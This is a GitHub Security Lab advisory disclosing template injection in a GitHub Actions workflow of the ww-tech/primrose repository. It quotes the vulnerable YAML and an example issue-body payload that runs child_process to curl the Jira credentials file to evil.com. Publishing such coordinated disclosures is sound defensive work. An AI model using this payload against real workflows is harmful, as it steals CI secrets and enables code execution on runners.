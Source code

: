 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">December 3, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-209: Template injection in a GitHub workflow of ww-tech/primrose repository</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>Automatic GitHub workflow in <a href="https://github.com/ww-tech/primrose">ww-tech/primrose</a> repository is vulnerable to template injection from user comments.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/ww-tech/primrose">ww-tech/primrose</a> repository</p>

<h2 id="tested-version">Tested Version</h2>

<p>Master branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-hidden-expression-expansion-of-input-parameters-passed-to-atlassiangajira-create">Issue: Hidden expression expansion of input parameters passed to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create</code></h3>

<p><a href="https://github.com/ww-tech/primrose/blob/master/.github/workflows/issues.yml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in issues.yml</a> workflow is vulnerable to template injection.</p>

<p><code class="language-plaintext highlighter-rouge">${{ github.event.issue.title }}</code> and <code class="language-plaintext highlighter-rouge">${{ github.event.issue.body }}</code> are used to format input values to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create</code> action:</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code>    <span class="pi">-</span> <span class="na">name</span><span class="pi">:</span> <span class="s">Jira Create issue</span>
      <span class="na">uses</span><span class="pi">:</span> <span class="s">atlassian/gajira-create@v2.0.0</span>
      <span class="na">with</span><span class="pi">:</span>
        <span class="c1"># Key of the project</span>
        <span class="na">project</span><span class="pi">:</span> <span class="s">DS</span>
        <span class="c1"># Type of the issue to be created. Example: 'Incident'</span>
        <span class="na">issuetype</span><span class="pi">:</span> <span class="s">Task</span>
        <span class="c1"># Issue summary</span>
        <span class="na">summary</span><span class="pi">:</span> <span class="s2">"</span><span class="s">${{</span><span class="nv"> </span><span class="s">github.repository}}</span><span class="nv"> </span><span class="s">Issue</span><span class="nv"> </span><span class="s">#${{</span><span class="nv"> </span><span class="s">github.event.issue.number}}</span><span class="nv"> </span><span class="s">${{</span><span class="nv"> </span><span class="s">github.event.issue.title}}"</span>
        <span class="c1"># Issue description</span>
        <span class="na">description</span><span class="pi">:</span> <span class="s">${{ github.event.issue.body}} ${{ github.event.issue.html_url}}</span>
</code></pre></div></div>

<p>The action has a hidden feature - it expands <code class="language-plaintext highlighter-rouge">{{}}</code> internally. This way when the comment body contains an expression in double curly braces it is evaluated by node.js in these actions.</p>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary code execution in the context of GitHub runner. For example a user may create an issue with the body:</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{{</span> <span class="nx">process</span><span class="p">.</span><span class="nx">mainModule</span><span class="p">.</span><span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">child_process</span><span class="dl">'</span><span class="p">).</span><span class="nx">exec</span><span class="p">(</span><span class="s2">`curl -d @</span><span class="p">${</span><span class="nx">process</span><span class="p">.</span><span class="nx">env</span><span class="p">.</span><span class="nx">HOME</span><span class="p">}</span><span class="s2">/.jira.d/credentials http://evil.com`</span><span class="p">)</span> <span class="p">}}</span>
</code></pre></div></div>

<p>which will exfiltrate the secret Jira API token to the attacker controlled server. To make the attack less visible an attacker may modify the issue to <code class="language-plaintext highlighter-rouge">Never mind my bad</code> and close it.</p>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/29/2020: Report sent to vendor</li>
  <li>10/29/2020: Vendor acknowledges the issue</li>
  <li>11/23/2020: Issue resolved</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-209</code> in any communication regarding this issue.</p>

   